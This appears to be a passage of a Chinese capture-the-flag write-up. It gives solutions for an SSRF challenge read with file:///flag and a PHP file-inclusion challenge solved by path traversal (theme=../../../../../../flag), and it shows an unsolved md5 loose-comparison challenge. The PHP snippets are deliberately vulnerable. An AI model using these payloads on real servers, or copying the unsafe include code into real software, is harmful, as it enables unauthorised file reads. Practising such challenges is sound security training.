 ssrf，伪协议读取 flag

`file:///flag`

![](https://s2.loli.net/2024/06/05/uxGZVT7lds1n2z5.png)

### 高亮主题(划掉)背景查看器

```php
<?php

// 文件包含漏洞演示

if (isset($_GET['url'])) {

    // 读取并包含用户输入的文件

    $file = $_GET['url'];

    if (strpos($file, '..') === false) {

        include $file;

    } else {

        echo "Access denied.";

    }

} else {

    echo "No file specified.";

}

?>
```

无过滤文件包含，路径穿越直接读取

payload:

post：`theme=../../../../../../flag`

### 百万美元的诱惑

```php
<?php
error_reporting(0);

$a = $_GET['a'];
$b = $_GET['b'];

$c = $_GET['c'];

if ($a !== $b && md5($a) == md5($b)) {
        if (!is_numeric($c) && $c > 2024) {
            echo "好康的";
        } else {
            die("干巴爹干巴爹先辈~");
        }
    }
else {
    die("开胃小菜))");
}
```
